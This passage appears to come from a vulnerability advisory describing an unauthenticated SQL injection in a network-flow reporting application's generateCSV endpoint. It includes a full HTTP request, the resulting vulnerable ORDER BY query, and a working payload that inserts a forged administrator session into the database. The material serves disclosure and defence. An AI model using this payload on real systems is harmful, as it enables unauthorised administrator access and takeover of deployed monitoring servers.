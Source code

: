 ```http
POST /fcgi/scrut_fcgi.fcgi HTTP/1.1
Host: 192.168.1.240
Content-Length: 1381
Connection: close

rm=csvExportReport&action=generateCSV&rpt_obj={"id":0,"reportTypeLang":"internalExternalSrc","saved":{"name":"aaaaaaa","id":"1"},"filters":{"sdfDips_0":"in_GROUP_ALL"},"reportDirections":{"selected":"x"},"times":{"start":"1683739700","end":"1683739800","dateRange":"Custom"},"rateTotal":{"available":["rate","total"],"selected":"total"},"dataGranularity":{"selected":"auto"},"ipDns":{"selected":"DNS"},"dataFormat":{"selected":"normal"},"orderBy":"countdistinct_sourceipaddress","tableView":{"hidden_cols":["","dddd"],"sorting":", ATTACKER_CONTROLLED","inbound":{"query_limit":{"offset":0,"max_num_rows":"10"}},"outbound":{"query_limit":{"offset":0,"max_num_rows":"10"}},"maxNumRows":"10"},"graphView":{"types":{"selected":"step"},"graphStyle":{"default":"stacked","available":["stacked","unstacked"],"selected":"stacked"},"graphGranularity":{"default":"medium","available":["low","medium","high"],"sizes":{"low":60,"high":180,"medium":"120"},"seconds":600,"selected":"medium"},"showOthers":true,"colHasBbp":0},"saveGlow":false,"useServerTz":0,"bbp":{"selected":"percent"},"every_column":0,"break_out_by_interface":0,"useTotalsTables":0,"table_only":0,"alternative_time_column":"","dataMode":{"selected":"raw_flows"},"colHasOther":0}&data_requested=%7B%22table_name%22%3A%22xyz%22%7D&direction=inbound&filename=statusReport_aaaaaaa_internalExternalSrc_1683740222572_inbound.csv
```
***Unauthenticated Request to `generateCSV` with `sorting` set to `ATTACKER_CONTROLLED`***

When a request to `generateCSV` is processed, the following query is executed by the database:

```sql 
/* Get top x over all */                                
SELECT  min(conv.intervaltime) as first_flow_epoch,max(conv.intervaltime) as last_flow_epoch, max(conv.intervaltime) as 
  intervaltime,   
  conv.srcinternal,
  /*  conv.sourceipaddress, conv.srcinternal */
COUNT(DISTINCT sourceipaddress) AS countdistinct_sourceipaddress
FROM plixer_temp.rtt0x52f1f59af05511edbc4b2012328df036_inbound as conv
WHERE quantize( conv.intervaltime, 600 ) IN( 1683654000,……,1683739800 )
GROUP BY   conv.srcinternal
ORDER BY countdistinct_sourceipaddress , ATTACKER_CONTROLLED
NULLS LAST
LIMIT 10 OFFSET 0
```
***SQL Statement Executed by the Database When Processing `generateCSV` Requests***

As shown in the preceeding SQL snippet, the `ATTACKER_CONTROLLED` value is inserted into an `ORDER BY` statement without validation or sanitization resulting in classic SQL injection.  This vulnerability can be leveraged to to perform a variety of attacks such as the impersonation of an administrator user. Following is an example attack where new administrator session is inserted into the application database with a `sessionid` cookie value of `1337133713371337`:

```json
"sorting":" ,(SELECT 1 FROM dblink((select 'host=localhost user=plixer'), E'insert INTO plixer.sessions (session_id,user_id,auth_method,login_ts,update_ts) values (\'1337133713371337\',1,\'unpossible\',1683669820,1683847185)') RETURNS (result TEXT))--",
```
***`sorting` Parameter with SQL Injection Attack to Insert an Administrator User Session***
